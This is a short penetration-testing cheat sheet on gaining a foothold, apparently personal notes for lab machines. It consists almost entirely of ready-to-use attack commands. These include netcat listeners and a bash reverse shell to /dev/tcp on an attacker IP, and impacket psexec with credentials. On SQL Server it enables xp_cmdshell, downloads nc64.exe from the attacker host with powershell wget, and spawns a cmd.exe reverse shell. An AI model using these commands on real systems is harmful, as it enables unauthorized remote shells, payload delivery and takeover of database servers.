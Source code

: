 Foothold
========

Listeners
---------

Netcat
```
sudo nc -lvnp $LPORT
```

Netcat on a port less likely to be blocked by egress firewalls
```
sudo nc -lvnp 443
```

Reverse Shells
--------------

[Various Reverse Shell Cheatsheets (github.com)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
```
bash -c "bash -i >& /dev/tcp/10.10.14.62/443 0>&1"
```

use python to improve the quality of terminal experience
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
or 
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Protocol attacks with [impacket](https://github.com/SecureAuthCorp/impacke)
```
impacket-psexec "./$WINUSER:$WINPASS"@$RHOST
```

SQL Server
----------

check if role is admin
```
SELECT is_srvrolemember('sysadmin');
```

Enable command shell
```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; sp_configure; - Enabling the sp_configure as stated in the above error message EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

Run a command
```
EXEC xp_cmdshell 'net user';
```
	
Download and run nc64.exe
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://[[$LHOST]]:8080/nc64.exe -outfile nc64.exe"
```
	
Obtain reverse shell
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe [[$LHOST]] [[$LPORT]]"
```

Estabish SSH tunnel (local port: `8888`, remote host: `localhost`, remote port: `80`)
```
ssh -L 8888:localhost:80 -i ~/.ssh/id_trash_ed25519 $RUSER@$RHOST
```
